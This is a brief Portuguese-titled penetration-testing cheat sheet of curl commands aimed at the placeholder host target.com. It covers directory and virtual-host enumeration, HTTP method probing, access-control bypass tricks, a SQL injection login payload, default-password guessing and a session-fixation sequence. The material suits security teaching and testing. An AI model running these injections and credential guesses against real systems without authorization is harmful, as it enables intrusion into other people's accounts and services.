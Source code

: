 ## cURL para Pentesting

### Enumeração Web
```bash
# Directory enumeration
curl -s -o /dev/null -w "%{http_code}" http://target.com/admin/
curl -s -o /dev/null -w "%{http_code}" http://target.com/backup/
curl -s -o /dev/null -w "%{http_code}" http://target.com/config/

# Virtual host discovery
curl -H "Host: admin.target.com" http://192.168.1.100/
curl -H "Host: api.target.com" http://192.168.1.100/

# HTTP methods testing
curl -X OPTIONS http://target.com/api/
curl -X TRACE http://target.com/
curl -X TRACK http://target.com/
```

### Bypass Techniques
```bash
# IP vs Domain
curl http://192.168.1.100/admin/ -H "Host: target.com"

# Different protocols
curl ftp://target.com/
curl ldap://target.com/

# Case variation
curl http://target.com/Admin/
curl http://target.com/ADMIN/

# Trailing slash
curl http://target.com/admin
curl http://target.com/admin/

# URL encoding
curl http://target.com/%61%64%6D%69%6E/  # /admin/
```

### Authentication Testing
```bash
# SQL Injection in login
curl -d "username=admin'--&password=anything" http://target.com/login

# Weak passwords
curl -u admin:admin http://target.com/admin/
curl -u admin:password http://target.com/admin/
curl -u admin:123456 http://target.com/admin/

# Session fixation
curl -c cookies.txt http://target.com/login
curl -b cookies.txt -d "user=admin&pass=pass" http://target.com/auth
```
